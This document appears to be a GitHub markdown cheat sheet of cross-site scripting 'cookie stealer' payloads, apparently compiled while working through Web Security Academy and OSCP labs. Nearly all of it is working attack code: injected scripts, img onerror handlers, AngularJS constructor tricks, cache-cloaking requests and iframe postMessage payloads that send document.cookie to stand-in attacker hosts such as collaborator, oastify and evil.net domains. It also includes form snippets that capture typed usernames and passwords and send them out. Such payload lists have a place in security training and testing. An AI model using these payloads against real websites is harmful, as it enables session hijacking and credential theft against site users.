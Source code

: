 
# CookieStealer XSS Payloads  

>XSS Cookie Stealer payloads using JavaScript

```Javascript
JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie
```  

>Reflected XSS into HTML context with nothing encoded in search.  

```JavaScript
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```  

>Reflected DOM XSS, into JSON data that is processed by **eval().**  

```JavaScript
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```  

>JavaScript Template literals are enclosed by backtick ( \` ) characters instead of double or single quotes.  

```JavaScript
${document.location='https://tvsw9dim0doynnpscx9mgtq67xdo1jp8.oastify.com/?cookies='+document.cookie;}
```  

![JavaScript template string](../images/javascript-template-string.png)  

>AngularJS DOM XSS Attack **constructor** payloads  

```JavaScript
{{$on.constructor('alert(1)')()}}
```

```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```  
  
>HTTP request smuggling to deliver reflected XSS  

```JavaScript
a"/><script>document.location='https://bc.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```  

>Web Cache Parameter cloaking - script ```/js/geolocate.js```, executing the callback function ```setCountryCookie()```  
  
```JavaScript
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location='http://BURPCOL.oastify.com/?StealCookies=' document.cookie ;//
```  

>More Cross-Site Scripting (XSS) example cookie stealer payloads.  

```JavaScript
<script>
document.location='https://Collaborator.com/?cookiestealer='+document.cookie;
</script>
```

>HTML <img> Tag, with invalid Image source, with escape sequence from source code calling ```window.location``` for the **LastViewedProduct``` cookie.  

```html
&'><img src=1 onerror=print()>
```  

```html
&'><img src=x onerror=this.src="https://exploit-0a6b000b033762e6c0fa121d01fc0020.exploit-server.net/?ex="+document.cookie>
```  

```Javascript
<img src=x onerror=this.src=https://exploit.net/?'+document.cookie;>
```  

>***Document.location*** returns a Location object, which contains information about the URL of the document and provides methods for changing that URL and loading another URL.  

```JavaScript
document.location='https://burp-collab.x.com/cookiestealer.php?c='+document.cookie;
```  

```Javascript
document.location='https://BurpCollaBoRaTor.oastify.com/?FreeCookies='+document.cookie;
```

>Document.write  

```Javascript
/?evil='/><script>document.write('<img src="https://exploit.com/steal.MY?cookie=' document.cookie '" />')</script> 
```  


```Javascript
<script>
    document.location=""http://stock.lab.web-security-academy.net/?productId=4
            <script>
                    var req = new XMLHttpRequest(); 
                    req.onload = reqListener; 
                    req.open('get','https://lab.web-security-academy.net/accountDetails',true); 
                    req.withCredentials = true;
                    req.send();
                    function reqListener() {
                            location='https://exploit.web-security-academy.net/log?key='%2bthis.responseText;
                    };
            %3c/script>
            &storeId=1""
</script>
```

```Javascript
<script>
fetch(‘https://burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

```Javascript
<script>
  fetch('https://COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body:'PeanutButterCookies='+document.cookie
  }); 
</script>   
```

```Javascript
x"); var fuzzer=new Image;fuzzer.src="https://COLLABORATOR.com/?"+document.cookie; //
```

```Javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
```

>OSCP Offsec PWK hand book cookie stealer example  

```Javascript
<script>new Image().src="http://Collaborator.COM/cool.jpg?output="+document.cookie;</script>
```

>Alt Cookie Stealer  

```Javascript
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

```Javascript
<script>
fetch('https://BURP-COLLABORATOR', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>::::  Steal Password / Cookie Stealer ::::

>XMLHttpRequest

```html
<input name=username id=username>
<input type=password name=password id=password onhcange="CaptureFunction()">
<script>
function CaptureFunction()
{
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit.com/?username=" + user + "&password=" + pass, true);
xhr.send();
}
</script>
```

>FETCH API

```Javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


>::::  DATA EXFILTRATION  /  COOKIE STEALER  ::::
```Javascript
  </textarea><script>fetch('http://exploit.evil?cookie=' + btoa(document.cookie) );</script> 
```

```Javascript
<script>document.write('<img src="http://evil.net/submitcookie.php?cookie=' + escape(document.cookie) + '" />');</script>
```

```Javascript
<script>
document.write('<img src="HTTPS://EXPLOIT.net/?c='+document.cookie+'" />');
</script>
```

```Javascript
<script>document.write('<img src="https://EXPLOIT.net/?c='%2bdocument.cookie%2b'" />');</script>
```  

>IFRAMEs

```JavaScript
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```  

>Javascript set test cookie in current browser session with no HttpOnly flag to allow proof of concept cookie stealer.  

```
document.cookie = "TopSecretCookie=HackThePlanetWithPeanutButter";
```

>Prompt Validation payload, does not steal cookie or send it to exploit server.  

```html
<img src=x onerror=prompt(1)>
```  